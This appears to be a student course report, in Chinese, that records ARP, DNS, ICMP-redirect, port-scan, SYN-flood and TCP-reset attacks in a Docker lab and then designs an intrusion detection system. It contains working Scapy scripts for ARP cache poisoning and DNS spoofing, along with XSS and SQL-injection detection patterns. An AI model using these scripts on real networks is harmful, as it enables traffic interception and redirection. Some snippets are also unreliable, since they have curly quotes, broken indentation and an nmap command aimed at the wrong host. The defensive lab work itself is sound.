



# 网络空间安全实训大作业

* 57118218 纪盛谦
* 57118219 贾志豪
* 57118220 建国栋
* 57118221 梅昊
* 57118230 向颖

## 1. 攻击流量样本的录制

### 实验环境

采用Docker，开启多个Ubuntu 20.04系统的容器进行攻击样本采集，容器之间采用Docker内置的网桥进行连接  

### 1.1 ARP-Attack

### 相关容器

* 攻击容器A
	* IP：`10.9.0.105`

* 受害者容器B
	* IP：`10.9.0.5`

* 目的容器C
	* IP：`10.9.0.6`

### 攻击步骤

分别构造`ARP request`，`ARP reply`，`ARP gratuitous message` 报文对受害者主机的 arp cache 进行污染

```
E = Ether()
A = ARP()
B = ARP()
C = ARP()
```

Arp request：伪造B发给C的请求报文
```
\#arp request packet
C.pdst="10.9.0.6"
C.psrc="10.9.0.5"
C.op=1
pkt1=E/C
```

Arp reply：伪造C发给B的回复报文
```
\#arp reply packet
A.hwsrc='02:42:0a:09:00:69'
A.psrc="10.9.0.6"
A.pdst="10.9.0.5"
A.op=2
pkt2 = E/A
```

Arp gratuitous message：伪造C的广播报文
```
\#arp gratuitous paccket
B.hwsrc='02:42:0a:09:00:69'
B.hwdst="ff:ff:ff:ff:ff:ff"
E.dst="ff:ff:ff:ff:ff:ff"
B.psrc="10.9.0.6"
B.pdst="10.9.0.6"
pkt3 = E/B
```

报文发送：
```
**while** True:
	time.sleep(5)
	sendp(pkt1, iface='eth0')
	sendp(pkt2, iface='eth0')
	sendp(pkt3, iface='eth0')
```

### 1.2 DNS Poisoning  

#### 相关容器：

* 攻击者容器A
    * IP：`10.9.0.1`
* 服务器容器B
    * IP：`10.9.0.5`
* 本地DNS
    * IP：`10.9.0.11`
#### 攻击步骤：
在容器A运行DNS Poisoning攻击程序，代码如下：

```python
#!/usr/bin/env python3 
from scapy.all import * 

def spoof_dns(pkt): 
      if (DNS in pkt and ’www.example.com’ in pkt[DNS].qd.qname.decode(’utf-8’)): 
      IPpkt = IP(dst=pkt[IP].src, src=pkt[IP].dst) 
      UDPpkt = UDP(dport=pkt[UDP].sport, sport=53) 
      Anssec = DNSRR(rrname=pkt[DNS].qd.qname, type=’A’, ttl=259200, rdata=’10.0.2.5’) 
      DNSpkt = DNS(id=pkt[DNS].id, qd=pkt[DNS].qd, aa=1, rd=0, qr=1, qdcount=1, ancount=1, an=Anssec) 
      spoofpkt = IPpkt/UDPpkt/DNSpkt 
      send(spoofpkt) 

f = ’udp and dst port 53’ 
pkt = sniff(iface=’br-43d947d991eb’, filter=f, prn=spoof_dns) 
```

当容器B运行dig指令

```shell
dig www.example.com
```

向DNS服务器申请www.example.com的IP时会被容器A监听并将错误IP返回给容器B污染容器B的DNS缓存，从而当容器B访问www.example.com时会直接跳转到错误的IP 10.0.2.5。

### 1.3 ICMP Redirect  

#### 相关容器
* 攻击者容器
	* IP：`10.9.0.105`
* 受害者容器
	* IP：`10.9.0.5`
* 恶意路由容器
	* IP：`10.9.0.111`
* 路由容器
	* IP：`10.9.0.11`，`192.168.60.11`
* 远端host容器
	* IP：`192.168.60.5`
#### 攻击步骤
攻击者构造一个恶意的ICMP Redirect包。源地址为路由地址`10.9.0.11`，目的地址为受害者`10.9.0.5`，内容为将`192.168.60.5`为目标的包重定向至恶意路由`10.9.0.111`。当受害者和`192.168.60.5`发生了ICMP交互后，发送这个恶意的ICMP Redirect包，即可将受害者的路由cache污染，一段时间内会将目标为`192.168.60.5`的包交付给恶意路由转发。

### 1.4 nmap  

#### 相关容器：

* 攻击者容器A
    * IP：`10.9.0.1`
* 服务器容器B
    * IP：`10.9.0.5`

#### 攻击步骤：

在容器A上安装nmap程序，再从容器A通过nmap命令

```shell
nmap 10.9.0.1 -p1-200
```


实现从容器A扫描容器B的1到200端口。

### 1.5 SYN-Flood

### 相关容器

* 攻击容器A
	* IP：`10.9.0.1`
* 受害者容器B
	* IP：`10.9.0.5`

### 攻击步骤

关闭`SYN cookies`功能，构造大量不同的`TCP SYN`报文并在短时间内大量发送至受害者B，造成`SYN-Flood`

### 1.6 TCP-Reset 
 
#### 相关容器
* 攻击者容器
	* IP：`10.9.0.1`
* 受害者容器
	* IP：`10.9.0.5`
* 服务器容器
	* IP：`10.9.0.6`
#### 攻击步骤
攻击者在窃听到受害者和服务器的TCP连接后，构造一个恶意的TCP Reset包。源地址为受害者，目的地址为服务器，序列号和确认号可以从窃听的TCP连接中得出。之后向服务器发送这个Reset包，服务器会释放这个TCP连接，导致连接中断。

## 2. IDS的设计  

### 2.1 使用方法

引入`optparse`模块，实现命令行参数的功能
```
from optparse import OptionParser
```

采用如下的命令行参数格式：

```
Usage program --ip <local ip\> --m <online/offline mode> --interface<interface(online)>
```

* --ip： 即ids需要检测的主机IP
* --m： ids运行模式，online/offline
* --interface： 在线模式下需要检测的网卡
* --h： 帮助信息

示例：
```
Python cmd.py --ip 10.9.0.5 --m off
```

### 2.2 IDS框架  


### 2.3 ICMP重定向攻击防御
代码如下。由于ICMP协议本身在设计时就没有考虑过多的安全性，因此在ICMP Redirect包中提供的信息很难进行检测，即正常的包和非正常的包没有很大的区别。考虑到一般的网络拓扑中只有唯一的网关，因此不会发送Redirect包，因此针对ICMP重定向攻击，我们选择在在线IDS运行的开始就开启Linux自带的防御选项，即不接受Redirect包，从而避免了被攻击成功。
```python
def ICMP_Redirect_Protect():
    val = os.system("sysctl net.ipv4.conf.all.accept_redirects=0")
print(val)
```

### 2.4 基于报文负载匹配的检测
报文负载匹配检测机制的结构
* Pmm.py
	* Pattern Matching Machine的主程序，复现了《Efficient String Matching: An Aid to 
Bibliographic Search》中所提到的AC算法，使用一个模式匹配自动机来完成多模式串的高效率匹配。
* PM.py
	* Pattern Matching，调用Pmm.py的自动机，对外提供相应的接口，方便调用。
* pattern.txt
	* 需要匹配的模式串。
* pattern_alert.txt
	* 当匹配到模式串时，需要发出的警告。

#### 2.4.1 AC算法原理
AC算法针对的问题是，对于字符串进行高效的多模式串匹配。算法需要输入一组模式串和待匹配的字符串，并返回字符串中所有存在的模式串。
简而言之，AC算法利用模式串前缀可能存在的包含情况，避免匹配时可能出现的回溯，这点与KMP算法十分相近。




算法包含三个辅助的数据结构，分别为`Goto`，`Failure`和`Output`。
算法的基本思想是，从字符串中依次读取字符，并输入进入自动机，若进入`Output`有值状态的`state`，则代表匹配成功。当失配时，则利用`Failure`函数，改变当前的`state`。

#### 2.4.2 使用方法
在`pattern.txt`中输入需要匹配的模式串。在IDS初始化时，PM就会根据模式串内容来构建相应的模式匹配自动机。当匹配到了相应的结果，就会返回`pattern_alert.txt`中的警报内容，由IDS来进行相应的处理。

#### 2.4.3 XSS攻击和SQL注入的检测
对于XSS攻击，我们选择检测负载中有无直接的`<`及`>`字符，这一般是最直接的XSS攻击。
对于SQL注入攻击，我们选择检测负载中有无直接的`’ OR`字符串，这是最直接的单引号攻击。
我们将模式串写入`pattern.txt`，并在`pattern_alert.txt`写入相应的攻击类型。

### 2.5 基于流的检测
#### 基于流检测TCP Reset攻击
TCP RST攻击的特点在于，伪造RST报文的服务器位于别的网络中，因此TTL值有可能会发生较大的变化。因此我们选择建立相应的数据结构，存储所有当前建立连接的TCP连接，并记录当前报文的TTL值。当接受到TCP Reset报文时，如果TTL值与记录的值相差超过阈值，我们目前设置为5，则认为该Reset报文是TCP Reset攻击，并记录。

### 2.6 基于统计的检测
#### 2.6.1 基于统计的nmap检测与防御
主要函数为`Statistic`以及`Port_Scan_Protect`

通过分析构造出来的端口扫描报文可以看出，端口扫描攻击往往都是同一个IP向受害者IP的不同端口发送TCP报文从而达到攻击效果。

因此，为了检测端口扫描，我们首先构造字典`IP_port`，在其中每个IP映射一个列表，列表中存放该IP向本机发送报文的目的端口。当某个IP对应列表的数量超过阈值100时，即判断该IP在向本机进行端口扫描，进而发出警报。
若为在线检测，则配置防火墙，对来自该IP的报文进行拦截，配置防火墙命令如下：

```shell
iptables -A INPUT -s src_IP -j DROP
```

#### 2.6.2 基于统计的SYN-Flood 检测与防御

##### 检测部分：

统计出现的目的ip为ids检测主机的所有`TCP SYN` 报文数量，统计在0.1s内若数量超过2000以上即会发出警报，并记录相应的攻击流量起止时间

##### 具体步骤：

* 首先目前检测报文是否为TCP SYN报文并判断该报文目的地址是否为检测主机
```
if 'TCP' in data:
	if data['TCP'].flags == 'S':
```
		* 记录第一条TCP SYN报文的时间
		```
		timefirst = data.time
		```
		
		* 后续比较TCP
		SYN与第一条的时间差，在0.1s内则数量+1，若大于0.1s则开始重新计数并记录时间
		```
		if float(timesecond)-float(timefirst) <= 0.100000:
			syn_num += 1
		else:
		flag = 0
		```
		
		* 当数量大于2000时发出警报信息，并生成警报记录

##### 防御：

开启SYN-cookies服务（ids在root权限下运行）
```
sudo sysctl -w net.ipv4.tcp_syncookies=1
```
